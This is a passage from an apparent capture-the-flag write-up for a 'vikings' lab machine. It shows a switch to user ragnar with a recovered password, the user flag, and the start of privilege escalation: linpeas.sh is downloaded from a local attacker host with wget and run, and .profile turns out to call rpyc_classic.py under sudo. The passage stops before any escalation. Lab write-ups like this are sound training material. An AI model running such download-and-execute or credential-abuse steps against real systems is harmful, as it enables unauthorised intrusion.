 Indeed, there was a user `ragnar`. I attempted to switch to `ragnar` using the generated password:

```shellscript
floki@vikings:~$ su ragnar
Password: mR)|>^/Gky[gz=\.F#j5P(
```

I successfully switched to the `ragnar` user.

```shellscript
$ id
uid=1001(ragnar) gid=1001(ragnar) groups=1001(ragnar)
$ /bin/bash
ragnar@vikings:~$ ls
user.txt
ragnar@vikings:~$ cat user.txt
4bf930187d0149a9e4374a4e823f867d
```

This was the user flag for `ragnar`: `4bf930187d0149a9e4374a4e823f867d`.

### Privilege Escalation

As `ragnar`, I checked for `sudo` privileges:

```shellscript
ragnar@vikings:~$ sudo -l
[sudo] password for ragnar: Sorry, user ragnar may not run sudo on vikings.
```

`ragnar` did not have `sudo` privileges. I then ran `linpeas.sh` to enumerate potential privilege escalation vectors.

```shellscript
ragnar@vikings:~$ wget http://192.168.1.5/linpeas.sh
ragnar@vikings:~$ chmod +x linpeas.sh
ragnar@vikings:~$ ./linpeas.sh
```

LinPEAS output highlighted an interesting entry in `ragnar`'s `.profile` file:

```shellscript
ragnar@vikings:~$ cat .profile
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.
# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022
sudo python3 /usr/local/bin/rpyc_classic.py
# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
     . "$HOME/.bashrc"
    fi
fi
# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi
# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
```
